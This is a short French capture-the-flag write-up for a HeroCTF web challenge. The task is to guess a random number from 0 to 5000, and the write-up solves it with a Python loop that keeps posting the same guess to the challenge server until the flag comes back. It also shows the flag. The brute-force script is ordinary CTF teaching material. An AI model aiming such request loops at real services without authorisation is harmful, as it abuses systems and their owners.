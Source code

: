 Ce challenge, comme le dit l'énoncé, est fait pour être bruteforcé !

Le principe est de trouver le nombre entre 0 et 5000 choisit aléatoirement coté serveur.

Pour résoudre ce challenge, on peut par exemple utiliser l'outil Burp Suite ou faire un rapide script en python (on choisit un nombre proche de 5000/2 = 2500 pour une plus grande probabilité):
```python
import requests

url = "http://heroctf.fr:4444/hasard.php"
r = requests.post(url, data={'choice':'2532'})

while 'try again' in r.text:
    try:
        r = requests.post(url, data={'choice':'2532'})
    except ConnectionError as e:
        print("[!] Connexion timed out")

print(r.text)
```
On peut ensuite exécuter le script en cherchant le flag dans l'outpout
```bash
$ python BF_request.py | grep HeroCTF
    <span class="navbar-brand mb-0 h1">HeroCTF</span>
        <h2><br>Wow, so much luck... <br> HeroCTF{brut3f0rc3_w4s_th3_w4y}</h2>         </div>
```
HeroCTF{brut3f0rc3_w4s_th3_w4y}
